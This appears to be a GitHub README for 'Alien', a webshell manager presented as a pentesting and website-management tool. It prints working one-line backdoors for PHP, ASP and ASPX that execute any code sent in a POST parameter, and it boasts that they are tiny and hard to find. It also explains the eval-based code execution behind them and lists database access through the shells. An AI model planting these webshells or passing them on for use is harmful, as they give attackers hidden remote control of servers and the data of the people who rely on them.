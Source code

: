 # Alien

Website Manager

## Disclaimer
This tool only use in legal pentest, reasearch and website management\
You should take the consequence if you use in illegal purpose.

## Language
C# .NET Framework V4.8

## OneShell
OneShell is a tool use in pentesting for control the server.\
It can be very tiny and very difficult to be found.
These are the simplest oneshell.

- PHP
```<?php @eval($_POST['password']);?>```
- ASP
```<%execute(request("password"))%>```
- ASPX
```<%@ Page Language="Jscript"%><%eval(Request.Item["password"])%>```

Also, Alien support asmx , ashx webshell

## Server Manager
- MySQL : PHP
- Access : https://github.com/malbuffer4pt/DBer
- SQL Server : ASP ASPX ASMX ASHX

## Principle
For PHP, eval() function can evaluate the string as a code.\
if eval() contains a controllable variable, then we can execute any code we like.\
Example: eval($_POST['a']);\
HTTP POST a=phpinfo();\
The the server will execute code "phpinfo();"

## Screenshot
![5](https://github.com/malbuffer4pt/Alien/blob/main/5.png)
![1](https://github.com/malbuffer4pt/Alien/blob/main/1.png)
![6](https://github.com/malbuffer4pt/Alien/blob/main/6.png)
![2](https://github.com/malbuffer4pt/Alien/blob/main/2.png)
![3](https://github.com/malbuffer4pt/Alien/blob/main/3.png)
![4](https://github.com/malbuffer4pt/Alien/blob/main/4.png)

## Acknowledgements
Every veteran who study in webshell.
